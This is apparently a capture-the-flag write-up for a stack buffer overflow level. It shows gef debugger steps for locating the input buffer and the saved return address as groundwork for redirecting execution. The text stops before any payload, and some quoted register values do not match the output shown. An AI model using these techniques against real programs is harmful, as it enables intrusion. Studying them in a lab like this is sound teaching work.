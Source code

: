 

## level 4.1

> Overflow a buffer and smash the stack to obtain the flag, but this time bypass a check designed to prevent you from doing so!

* In order to create a payload we need to know three things:
  * [ ] Location of buffer.
  * [ ] Location of stored return address.
  * [ ] Address of win function.

```
gef➤  run

; -- snip --
Send your payload (up to 10 bytes)!
```

* Once we are prompted to enter our payload we can press `CTRL C` and then enter our payload.

```
gef➤  finish
Run till exit from #0  0x00007f7c7813dfd2 in __GI___libc_read (fd=0x0, buf=0x7ffc615eeba0, nbytes=0xa) at ../sysdeps/unix/sysv/linux/read.c:26
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```

* The program has now read our payload.
* The `read` syscall takes the following arguments:

```c
ssize_t read(int fd, void buf[.count], size_t count);
```

* We can see that the second argument is the location to which input is read, and it is stored in `$rsi`.

```
gef➤  p $rsi
$2 = 0x7ffd98ad7380
```

* In this challenge, we have no `win` variable to overwrite.
* The way we can divert flow of the program is by overwriting the return address.
* We know that the base pointer `$rbp` points to the saved base pointer of the caller function.
* Let's check this:

```
gef➤  x/a $rbp
0x7ffd98ad73d0: 0x7ffd98ad8400
```

* The base pointer `$rbp` has the value `0x7fff0c8f8e90` and it points to `0x7fff0c8f9ec0` which is the `$rbp` of the caller function.
* And the return address is stored right before the caller functions base pointer. In our case at `$rbp + 8`.

```
gef➤  x/a $rbp + 8
0x7ffd98ad73d8: 0x401c6b <main+238>
```
